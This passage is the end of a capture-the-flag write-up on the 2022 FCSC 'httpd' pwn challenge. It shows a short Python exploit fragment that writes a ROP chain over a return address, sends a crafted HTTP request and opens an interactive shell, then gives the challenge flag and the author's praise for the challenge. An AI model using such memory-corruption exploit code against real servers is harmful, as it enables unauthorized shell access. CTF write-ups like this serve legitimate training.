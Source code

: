 ```python
for i in range(0, len(rop), 2):
    write_word(ret_addr + i, u16(rop[i:i+2]))

req = make_request(headers={
    b'Authorization': auth,
    # /!\ Important, to make the parent process returning, we have to set "Connection" header value to "close".
    b'Connection': b'close', 
})

r.send(req)
log.success('Enjoy your shell :)')
r.interactive()
```



Flag: `FCSC{d87c69143541ae0d3e43f8d65bff7072646cdc781167b89aedf0146cb20ed3cd}`.



### :checkered_flag: Conclusion

`httpd` was my favorite pwn challenge of the 2022 FCSC edition (along with `RPG`). I was impressed by how well the challenge was designed , thanks again to `XeR`! 